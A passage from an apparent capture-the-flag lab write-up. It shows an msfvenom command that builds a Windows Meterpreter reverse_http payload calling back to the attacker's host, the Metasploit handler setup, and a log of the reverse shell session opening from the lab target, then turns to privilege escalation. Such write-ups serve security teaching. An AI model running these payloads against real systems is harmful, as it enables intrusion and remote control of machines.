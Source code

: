 You can run any system commands you want in the predeployment step, I used a `msfvenom` payload just to validate that it's possible.

```bash
root@dastinia:~# msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.15.30 LPORT=8081 -f psh-cmd > 8081.cmd
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 588 bytes
Final size of psh-cmd file: 7111 bytes
```
![](https://i.imgur.com/sbVHY7I.png)

Hit Save & Apply 

```
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_http
PAYLOAD => windows/meterpreter/reverse_http
msf exploit(multi/handler) > set LPORT 8081
LPORT => 8081
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 2.

[*] Started HTTP reverse handler on http://10.10.15.30:8081
msf exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                           Payload opts
  --  ----                    -------                           ------------
  1   Exploit: multi/handler  windows/meterpreter/reverse_tcp   tcp://10.10.15.30:8383
  2   Exploit: multi/handler  windows/meterpreter/reverse_http  http://10.10.15.30:8081

msf exploit(multi/handler) >
[*] http://10.10.15.30:8081 handling request from 10.10.10.63; (UUID: mwj6ua5f) Staging x86 payload (180825 bytes) ...
[*] Meterpreter session 2 opened (10.10.15.30:8081 -> 10.10.10.63:49761) at 2018-05-16 15:14:13 -0400
```
The session may die rapidly, so you may want to make it automigrate, but I prefer the groovy script method since it's easier. This just validates that you can do it this way if you choose.

## Privilege Escalation

Lets run the results of the `systeminfo` command through GDSSecurity [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester),and see if there are any potential exploits/LPE's we can utilize. This is usually one of the first steps I take when I get on a windows box because you can very quickly determine if you have a path to esclatate your privileges through an exploit, or if you have to discover another way. 

 